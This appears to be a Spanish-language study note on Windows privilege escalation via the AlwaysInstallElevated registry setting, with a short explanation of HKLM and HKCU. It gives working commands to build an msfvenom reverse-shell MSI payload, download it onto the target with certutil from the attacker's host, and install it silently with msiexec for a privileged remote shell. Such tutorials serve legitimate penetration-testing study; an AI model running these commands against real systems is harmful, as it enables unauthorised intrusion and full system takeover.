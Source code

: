 -----
- Tags: #windows #teoria #practica #escalada 
-----

# AlwaysInstallElevated

El permiso **AlwaysInstallElevated** se refiere a una configuración de políticas de seguridad que afecta a la instalación de paquetes MSI (Windows Installer) y aplicaciones en sistemas operativos Windows. En resumen, permite a usuarios no administradores instalar paquetes MSI con privilegios elevados en Windows.

-------
# Explotación 

En caso de que estemos con herramientas como [WinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20230808-5e84dec0) analizando vías potenciales de escalar privilegios y veamos que tenemos el permiso **AlwaysInstallElevated** seteado en **1** con **HKLM** y **HKCU** podríamos empezara pensar visitar recursos como [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) para abusar de esto e intentar escalar privilegios. 

#### NOTA: **HKLM** y **HKCU** son abreviaturas que se utilizar para referirse a dos de las principales subclaves en el Registro de Windows (Base de datos jerárquica en la que Windows y las aplicaciones almacenan configuraciones y datos importantes del sistema.)

- #### HKLM: Abreviatura de **HKEY_LOCAL_MACHINE**, esta subclave contiene configuraciones y datos relacionados con la configuración del sistema y el hardware. 
- #### HKCU: Abreviatura de **HKEY_CURRENT_USER**, esta subclave almacena las configuraciones y datos específicos de cada usuario que ha iniciado sesión en el equipo. 

Una vez verificado que ambos permisos esten seteados en 1, podríamos comenzar con la explotación para escalar privilegios, en este caso lo primero que tendríamos que hacer es crear un payload con la herramienta **msfvenom**. 

```bash
msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST={our_ip} LPORT={our_port} -f msi -o privesc.msi
```
Una vez creado el payload deberíamos transferirlo a la máquina victima, esto podríamos hacerlo con un simple **certutil.exe**.

```shell
certutil.exe -f --urlcache -split http://{our_ip}/privesc.msi
```
Una vez transferido el payload, solo quedaría abusar del privilegio **AlwasyInstallElevated** instalando el archivo malicioso **msi** creado.

```shell
msiexec /quiet /qn /i C:\{our}\{path}\privesc.msi
```
Al momento de la ejecución de este último comando estaríamos instalando el archivo **msi** logrando que de manera privilegiada se ejecute el envío de una consola interactiva privilegiada al puerto y la ip especificada en el proceso de creación del payload con la herramienta **msfvenom**. 

